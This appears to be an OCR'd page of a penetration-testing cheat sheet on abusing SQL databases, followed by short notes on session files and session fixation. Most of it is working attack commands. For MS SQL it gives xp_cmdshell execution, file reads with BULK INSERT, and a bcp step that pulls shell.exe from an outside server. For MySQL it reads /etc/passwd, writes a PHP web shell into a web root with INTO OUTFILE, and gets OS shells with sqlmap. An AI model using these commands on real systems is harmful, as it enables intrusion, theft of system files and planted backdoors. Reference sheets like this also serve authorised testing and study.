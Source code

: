 ```
> EXEC master..xp_cmdshell 'dir C:\ > C:\inetpub\wwwroot\site\dir.txt'--


# Read file and puts its content into a table.
> CREATE TABLE filecontent(line varchar(8000));
> BULK INSERT filecontent FROM '<target_file>';


# Upload file to the victim Server
1. Insert the file into a table in MS SQL database under our control
	> CREATE TABLE HelperTable (file text)
	> BULK INSERT HelperTable FROM 'shell.exe' WITH (codepage='RAW')
1. Force the target DB server to retrieve it from our server
	> EXEC xp_cmdshell 'bcp "SELECT * FROM HelperTable" queryout shell.exe -c -Craw -S<out server address> -U<out server username> -P<out server password>'

```


**MySQL**
```
# Read File
> select load_file('/etc/passwd');

# Write to a file
> select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'


# Write the result of a query to a file
> select <field> from <table> into dumpfile '<output file path>';


# Execution Shell Commands - User Defined Functions (UDF)
> sqlmap -u <URL> --os-cmd
> sqlmap -u <URL> --os-shell



```

## Common Web Attacks

**Session Files**
```
# PHP Session stored within the folder specified by the php.ini entry - sesion.save_path.
# PHP session file name example - sess_<session_id>

-------------------------------------------------------------------------------

# Java - Tomcat sessions stored in SESSIONS.ser 
```


**Session Fixation**
```
# Session fixation exist if the server identifier(session) remains the same after successfuly login
```